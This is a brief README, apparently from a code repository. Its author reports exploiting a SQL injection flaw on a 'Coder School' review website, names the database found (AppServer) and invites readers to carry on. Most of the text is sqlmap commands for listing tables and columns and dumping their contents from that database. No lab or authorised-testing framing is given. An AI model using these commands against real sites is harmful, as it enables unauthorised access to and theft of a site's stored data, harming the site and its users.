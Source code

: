 # Coder-School-SQLi-Result

There is a SQL injection vulnerability on the Coder School review website.  I exploited it to find all of the tables.  The main database is AppServer(The only other one was information_schema).  The rest is up to you.



P.S.  If you want to dump the tables in there, or dump the columns in the tables, do the following commands:
  
  sqlmap -u [URL of the review page] -D AppServer --tables
  
  sqlmap -u [URL of the review page] -D AppServer -T [Name of the table] --columns
  
  sqlmap -u [URL of the review page] -D AppServer -T [Name of the table] -C [Name of the Column] --dump
